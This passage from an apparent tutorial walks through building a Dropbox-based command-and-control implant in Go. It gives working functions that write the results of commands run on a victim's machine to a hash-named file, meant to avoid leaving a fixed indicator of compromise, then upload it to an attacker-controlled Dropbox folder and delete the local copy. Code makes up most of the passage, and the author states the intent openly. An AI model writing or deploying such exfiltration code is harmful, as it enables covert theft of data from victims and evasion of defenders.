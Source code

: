 Now if we want to upload the result of executed commands, we need a way to upload files. My desired way of uploading the results would be to write the result to a local file, then upload that local file to the victim's unique Dropbox folder. We'll be using the [upload API call](https://dropbox.github.io/dropbox-api-v2-explorer/#files_upload) in order to do so. Our function takes 2 inputs: **the local path** of the desired file to upload and **the external path** which would be the Dropbox path to upload the local file to.

```
func rawFileUpload(localFilePath string, externalDBFilePath string) {
	var bearer = "Bearer " + token
	uploadParamBool := []interface{} {true, false}
	uploadParams, _ := json.Marshal(map[string]interface{} {
		"path": externalDBFilePath,
		"mode": "overwrite",
		"autorename": uploadParamBool[0],
		"mute": uploadParamBool[1],
		"strict_conflict": uploadParamBool[1],
	})
	fileData, _ := ioutil.ReadFile(localFilePath)
	request, _ := http.NewRequest("POST", "https://content.dropboxapi.com/2/files/upload", bytes.NewBuffer(fileData))
	request.Header.Add("Authorization", bearer)
	request.Header.Add("Dropbox-API-Arg", string(uploadParams))
	request.Header.Add("Content-Type", "application/octet-stream")
	response, _ := client.Do(request)
	respbody, _ := ioutil.ReadAll(response.Body)
	fmt.Println(string(respbody))
	resp.Body.Close()
	return
}
```

Now onto the function that we'll use to upload the result of commands. All we need to do is take one input: the result of the executed command and write it to a file, then upload the file using our newly created *rawFileUpload* function. The filename that we drop onto the system will simply be a hash of the data that we're writing to the file in order to avoid hardcoding a filename which could potentially be used as an IOC. I also added a timestamp to the Dropbox filename:

```
func cmdResultUploader(result string) {
	t := time.Now()
	localFileNameGen := sha1.New()
	dbFullPath := "/" + UUID + "/" + "results-" + t.Format("01-02-2006--15:04") + ".txt"
	localFileNameGen.Write([]byte(result))
	localFullPath := os.Getenv("USERPROFILE") + "\\" + hex.EncodeToString(localFileNameGen.Sum(nil))
	f, _ := os.Create(localFullPath)
	f.WriteString(result)
	f.Close()
	rawFileUpload(localFullPath, dbFullPath)
	_ = os.Remove(localFullPath)
	return
}
```
